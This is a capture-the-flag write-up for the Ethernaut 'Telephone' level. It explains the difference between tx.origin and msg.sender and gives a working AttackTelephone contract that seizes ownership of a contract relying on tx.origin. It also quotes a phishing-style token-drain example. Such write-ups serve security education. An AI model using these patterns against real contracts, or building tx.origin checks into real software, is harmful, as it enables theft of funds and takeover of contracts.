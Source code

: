 # Telephone

![https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg)

# Objectives

Claim ownership of the contract

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

# Analysis

`owner` can be assigned in two places in this contract. One in the `constructor()` and the other in the `changeOwner` function. Since constructor has already been invoked during the deployment of the contract, that leaves us with the `changeOwner` function.

```solidity
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

This function takes the `address` of the `msg.sender` and assigns it to be the `owner` of the contract. However it requires `tx.origin` not to be the `msg.sender`. So what are these values?

## What is `tx.origin` and `msg.sender`?

In solidity, `tx.origin` is the original external account that created the transaction. This global value is passed along different function calls to other contracts. But `msg.sender` is the account (smart contract or external) that made the call of the function.

Example - 

If Alice sends a transaction to contract A, contract A sees the address of Alice as `msg.sender` and `tx.origin`. If contract A sends a message (call) to contract B, B sees the contract A’s address as `msg.sender` and Alice’s address as `tx.origin`.

```
Alice --> Contract A
		msg.sender = Alice
		tx.origin = Alice

Contract A --> Contract B
		msg.sender = Contract A
		tx.origin = Alice
```

In Summary, 

`tx.origin` is like the root or highest level caller, and

`msg.sender` is the immediate caller

Now that we understand what is `tx.origin` and `msg.sender`, and what are the differences between them. It is pretty clear that we can exploit the contract using this loophole.

# AntiSec

The hack is pretty much simple and straight forward. We will exploit the contract by using the `tx.origin != msg.sender` loophole. All we have to do is write a malicious contract, pass the contract address of the `Telephone` contract and call the `changeOwner` function from our malicious contract. In which case, the `tx.origin` and `msg.sender` won’t be same and we will own the contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract AttackTelephone {

    Telephone telephone;
    address public owner;

    constructor(address _victimAddress) {
        owner = msg.sender;
        telephone = Telephone(_victimAddress);
    }

    function attack() public {
        telephone.changeOwner(owner);
    }
}
```

Once the transaction goes through, we can check if we are the new owner of the contract by

```jsx
await contract.owner()
```

# Key Takeaways

<aside>
💡 While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
</aside>

The above message is quoted by OpenZeppelin. In addition to that, I will just leave a link to one of [Vitalik Buterin](https://ethereum.stackexchange.com/users/188/vitalik-buterin)’s response in [ethereum.stackexchange.com](http://ethereum.stackexchange.com/) - 

> 1. Do NOT rely on very fine-grained calculations of current gas costs. Assume that gas costs of contract calling may go up or down by up to an order of magnitude in a future hard fork.
> 2. If creating contracts in assembly (ie. not serpent, solidity or LLL), do NOT use dynamic JUMP/JUMPI operations (ie. every JUMP/JUMPI should be **immediately preceded** by a PUSH value specifying the exact point in the code to jump to)
> 3. Do NOT do anything important based on the DIFFICULTY opcode.
> 4. Do NOT rely on the assumption of a block time between 12-20 seconds.
> 5. Do NOT assume that BLOCKHASHes will be a reliable source of randomness.
> 6. Do NOT assume that tx.origin will continue to be usable or meaningful.
> 7. Do NOT assume that opcodes other than 0xfe will continue to be invalid.
> 
> It's not certain that all of those steps will be required, or that they will be sufficient, but that should get you most of the way there.

https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof
